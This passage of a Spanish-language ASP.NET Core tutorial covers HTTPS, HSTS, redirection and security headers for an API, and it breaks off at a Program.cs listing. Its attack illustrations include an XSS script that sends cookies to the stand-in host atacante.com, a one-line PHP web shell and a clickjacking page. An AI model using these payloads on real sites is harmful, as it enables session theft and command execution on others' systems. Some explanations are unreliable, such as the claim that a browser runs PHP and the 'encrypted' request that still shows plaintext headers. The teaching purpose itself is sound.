# 19. Seguridad HTTP

## Índice

[19. Seguridad HTTP](#19-seguridad-http)
  - [19.1. Por Qué HTTPS es Obligatorio](#191-por-qu-https-es-obligatorio)
  - [19.2. HTTP Strict Transport Security (HSTS)](#192-http-strict-transport-security-hsts)
  - [19.3. Redirección HTTP a HTTPS](#193-redireccin-http-a-https)
  - [19.4. Security Headers](#194-security-headers)
  - [19.5. Configuración en Desarrollo vs Producción](#195-configuracin-en-desarrollo-vs-produccin)
  - [19.6. Implementación en Program.cs](#196-implementacin-en-programcs)
  - [19.7. Verificación de Seguridad](#197-verificacin-de-seguridad)
  - [19.8. Resumen y Buenas Prácticas](#198-resumen-y-buenas-prcticas)
  - [19.9. Rate Limiting](#199-rate-limiting)

---

## 19.1. Por qué HTTPS es Obligatorio

### El Problema con HTTP

HTTP transmite datos en texto plano, lo que permite que cualquier interceptor lea las comunicaciones. Esto es especialmente peligroso para APIs que manejan información sensible como credenciales, datos personales y tokens de autenticación.



### Vulnerabilidades Comunes

| Vulnerabilidad | Descripción | Impacto |
|----------------|-------------|---------|
| **Eavesdropping** | Interceptar comunicaciones | Robo de credenciales, tokens JWT |
| **Man-in-the-Middle** | Modificar requests/responses | Inyección de código, manipulación de datos |
| **Session Hijacking** | Robar cookies de sesión | Acceso no autorizado |
| **DNS Spoofing** | Redirigir a sitios falsos | Phishing, robo de credenciales |

### La Solución: HTTPS

HTTPS cifra toda la comunicación entre cliente y servidor usando TLS (Transport Layer Security). Esto garantiza confidencialidad, integridad y autenticidad de los datos transmitidos.


### Comparación HTTP vs HTTPS

| Aspecto | HTTP | HTTPS |
|---------|------|-------|
| **Cifrado** | Ninguno (texto plano) | TLS 1.3 (AES-256) |
| **Puerto** | 80 | 443 |
| **Certificado** | No requerido | SSL/TLS requerido |
| **SEO** | Penalizado | Beneficiado |
| **Rendimiento** | Rápido | Ligeramente más lento |
| **Seguridad** | Vulnerable | Protegido |

---

## 19.2. HTTP Strict Transport Security (HSTS)

### ¿Qué es HSTS?

HSTS es un mecanismo de seguridad que indica al navegador que solo debe acceder al sitio web mediante HTTPS, rechazando todas las conexiones HTTP. Esto previene ataques de downgrade y cookie hijacking.

### Cómo Funciona HSTS



### Configuración de HSTS en ASP.NET Core

```csharp
// En Program.cs
if (!app.Environment.IsDevelopment())
{
    app.UseHsts(options =>
    {
        options.MaxAge = TimeSpan.FromDays(365);      // 1 año
        options.IncludeSubDomains = true;              // Incluir subdominios
        options.Preload = true;                        // Permitir preload
    });
}
```

### Parámetros de HSTS

| Parámetro | Descripción | Valor Recomendado |
|-----------|-------------|-------------------|
| **max-age** | Tiempo que el navegador recuerda | 31536000 (1 año) |
| **includeSubDomains** | Aplica a todos los subdominios | true |
| **preload** | Incluir en lista de preload | true |

### Listas de Preload

Los sitios con `preload=true` pueden ser incluidos en las listas de preload de navegadores como Chrome, Firefox y Safari. Esto garantiza que el navegador rechace HTTP incluso en la primera visita.

**Sitios para agregar a preload:**
- https://hstspreload.org/

---

## 19.3. Redirección HTTP a HTTPS

### Redirección 301 (Permanente)

La redirección 301 indica al navegador que el recurso ha sido movido permanentemente de HTTP a HTTPS. Esto preserva el SEO y entrena al navegador para usar HTTPS.



### Implementación en ASP.NET Core

```csharp
// En Program.cs
if (!app.Environment.IsDevelopment())
{
    app.UseHsts();
    app.UseHttpsRedirection();
}
```

### Configuración de Redirección

```csharp
var builder = WebApplication.CreateBuilder(args);

// Configurar opciones de HTTPS redirection
builder.Services.AddHttpsRedirection(options =>
{
    options.RedirectStatusCode = StatusCodes.Status301MovedPermanently;
    options.HttpsPort = 443;  // Puerto HTTPS estándar
});
```

---

## 19.4. Security Headers

### ¿Por Qué Security Headers?

Los security headers añaden capas adicionales de protección contra ataques comunes web. Se envían en cada respuesta HTTP y son procesados por el navegador.



### Security Headers Implementados

| Header | Valor | Protección |
|--------|-------|------------|
| **X-Content-Type-Options** | `nosniff` | Previene MIME sniffing |
| **X-Frame-Options** | `DENY` | Previene clickjacking (iframes) |
| **X-XSS-Protection** | `1; mode=block` | Protege contra XSS legacy |
| **Referrer-Policy** | `strict-origin-when-cross-origin` | Controla información del referrer |
| **Permissions-Policy** | `accelerometer=(), camera=(), ...` | Controla APIs del navegador |

### Implementación del Middleware

```csharp
using Microsoft.AspNetCore.Builder;
using Microsoft.AspNetCore.Http;

namespace TiendaApi.Api.Middleware;

public class SecurityHeadersMiddleware(RequestDelegate next)
{
    private readonly RequestDelegate _next = next;

    private static readonly Dictionary<string, string> SecurityHeaders = 
        new(StringComparer.OrdinalIgnoreCase)
    {
        ["X-Content-Type-Options"] = "nosniff",
        ["X-Frame-Options"] = "DENY",
        ["X-XSS-Protection"] = "1; mode=block",
        ["Referrer-Policy"] = "strict-origin-when-cross-origin",
        ["Permissions-Policy"] = "accelerometer=(), camera=(), geolocation=(), gyroscope=(), magnetometer=(), microphone=(), payment=(), usb=()"
    };

    public async Task InvokeAsync(HttpContext context)
    {
        foreach (var header in SecurityHeaders)
        {
            context.Response.Headers.TryAdd(header.Key, header.Value);
        }

        await _next(context);
    }
}

public static class SecurityHeadersMiddlewareExtensions
{
    public static IApplicationBuilder UseSecurityHeaders(this IApplicationBuilder app)
    {
        return app.UseMiddleware<SecurityHeadersMiddleware>();
    }
}
```

### 19.4.1. Vulnerabilidades y Ataques Comunes

A continuación se explican las principales vulnerabilidades que los security headers mitigan:

#### HTTP vs HTTPS: El Problema del Texto Plano

**Vulnerabilidad:** HTTP transmite datos en texto plano, permitiendo que cualquier atacante en la red pueda leer, modificar o inyectar información.



**Ejemplo de ataque:**
```
// Trafico HTTP capturado (texto plano)
POST /auth/signin HTTP/1.1
Host: api.tienda.com
Content-Type: application/json

{"email":"admin@tienda.com","password":"admin123"}
// El atacante puede leer: admin@tienda.com / admin123
```

**Solución con HTTPS:**
```
// Trafico HTTPS cifrado (AES-256)
POST /auth/signin HTTP/1.1
Host: api.tienda.com
Content-Type: application/json

8a7b3c5d9e2f1a4b6c8d0e2f4a6b8c0d1e2f4a6b8c9d0e1f2a3b4c5d6e7f8a9b
// El atacante ve: caracteres ilegibles, imposible de descifrar sin la clave
```

#### HTTP Strict Transport Security (HSTS)

**Vulnerabilidad:** Un atacante puede realizar un ataque de "downgrade" forzando al usuario a usar HTTP en lugar de HTTPS.



**Ataque de Downgrade:**
1. Usuario intenta acceder a `https://api.tienda.com`
2. Atacante intercepta y redirige a `http://api.tienda.com` (falsa)
3. Usuario cree que está en HTTPS pero está en HTTP
4. Todas las credenciales son robadas

**Solución con HSTS:**
```
// Primera respuesta del servidor (HTTPS)
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

// El navegador guarda: "api.tienda.com SOLO acepta HTTPS"
// En siguiente visita, el navegador rechaza HTTP directamente
```

#### XSS (Cross-Site Scripting)

**Vulnerabilidad:** Un atacante inyecta código JavaScript malicioso que se ejecuta en el navegador de la victima.



**Ejemplo de ataque XSS:**
```html
<!-- Comentario en un producto -->
<script>
  fetch('https://atacante.com/robar?cookie=' + document.cookie);
</script>

<!-- Cuando otro usuario ve el comentario, sus cookies son robadas -->
```

**Protección con X-XSS-Protection:**
```
X-XSS-Protection: 1; mode=block

// El navegador detecta el script malicioso y lo bloquea
```

#### Clickjacking

**Vulnerabilidad:** El atacante superpone una página legítima con un iframe transparente, engañando al usuario para que haga clic en botones ocultos.



**Ejemplo de clickjacking:**
```html
<!-- Pagina del atacante -->
<html>
  <style>
    iframe { position: absolute; opacity: 0; }
    button { position: absolute; top: 100px; }
  </style>
  <iframe src="https://banco.com/transferir?cuenta=atacante&monto=10000"></iframe>
  <button>Gana un premio!</button>
</html>
<!-- El usuario cree hacer clic en el premio, pero en realidad
     hace clic en Transferir del banco -->
```

**Protección con X-Frame-Options:**
```
X-Frame-Options: DENY

// El navegador rechaza mostrar la pagina en un iframe
```

#### MIME Sniffing

**Vulnerabilidad:** El navegador "adivina" el tipo de archivo basándose en su contenido, lo que puede permitir ejecutar código malicioso.



**Ejemplo de MIME Sniffing:**
```php
// Archivo aparentemente como imagen pero contiene PHP
Content-Type: image/jpeg

<?php
system($_GET['cmd']);  // El navegador lo ejecuta como código PHP
```

**Protección con X-Content-Type-Options:**
```
X-Content-Type-Options: nosniff

// El navegador respeta el Content-Type declarado,
// no "adivina" el tipo de archivo
```

### Comparación: Antes y Después

| Vulnerabilidad | Antes (Sin Headers) | Después (Con Headers) |
|----------------|---------------------|----------------------|
| **HTTP→HTTPS** | Manual, vulnerable a downgrade | Automático, 301 redirect |
| **HSTS** | ❌ Navegador puede usar HTTP | ✅ 365 días, subdominios, preload |
| **XSS** | ❌ Sin protección | ✅ X-XSS-Protection: 1; mode=block |
| **Clickjacking** | ❌ Página puede iframearse | ✅ X-Frame-Options: DENY |
| **MIME Sniffing** | ❌ Navegador adivina tipos | ✅ X-Content-Type-Options: nosniff |

### Explicación de Cada Header



---

## 19.5. Configuración en Desarrollo vs Producción

### Estrategia de Configuración



### Código de Configuración

```csharp
// En Program.cs
var app = builder.Build();
var isDevelopment = app.Environment.IsDevelopment();

app.UseSwaggerUI(isDevelopment);
app.UseGraphiQL();
app.UseGlobalExceptionHandler();

// Security Headers - Siempre activo
app.UseSecurityHeaders();

// HTTPS + HSTS - Solo en producción
if (!isDevelopment)
{
    app.UseHsts();
    app.UseHttpsRedirection();
}
else
{
    // Log informativo para desarrollo
    Log.Information("🔓 Modo desarrollo: HTTP permitido");
}
```

### Comparación de Configuraciones

| Configuración | Desarrollo | Producción |
|---------------|------------|------------|
| **Puerto** | 5000 (HTTP) | 443 (HTTPS) |
| **UseHsts()** | ❌ Desactivado | ✅ Activado |
| **UseHttpsRedirection()** | ❌ Desactivado | ✅ Activado |
| **Security Headers** | ✅ Activos | ✅ Activos |

---

## 19.6. Implementación en Program.cs

### Configuración Completa

```csharp
using Serilog;
using TiendaApi.Api;
using TiendaApi.Api.Data;
using TiendaApi.Api.Data.Seed.Mongo;
using TiendaApi.Api.Infrastructures;
